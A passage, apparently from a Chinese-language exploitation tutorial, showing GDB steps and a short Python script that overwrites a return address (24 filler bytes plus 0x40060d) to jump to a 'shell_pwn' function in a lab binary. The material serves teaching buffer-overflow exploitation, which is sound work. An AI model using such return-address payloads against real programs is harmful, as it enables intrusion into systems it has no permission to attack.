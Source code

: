 第一条指令的地址是`0x000000000040060d`。此外，我们可以使用`print`函数：

```
$ print shell_pwn
```

上述命令的输出可以在以下屏幕截图中看到：

![](img/00246.jpeg)

完美！现在，让我们构建我们的最终利用：

```
#!/usr/bin/python
 from struct import *

 buffer = ''
 buffer += 'a'*24
 buffer += pack("<Q", 0x00000040060d)
 f = open("input.txt", "w")
 f.write(buffer)
```

然后，执行它：

```
$ ./exploit.py
```

然后，在 GDB 内部，运行以下命令：

```
$ run $(cat input.txt)
```

然后，代码将在`main`函数处暂停；按*C*继续：

![](img/00247.jpeg)
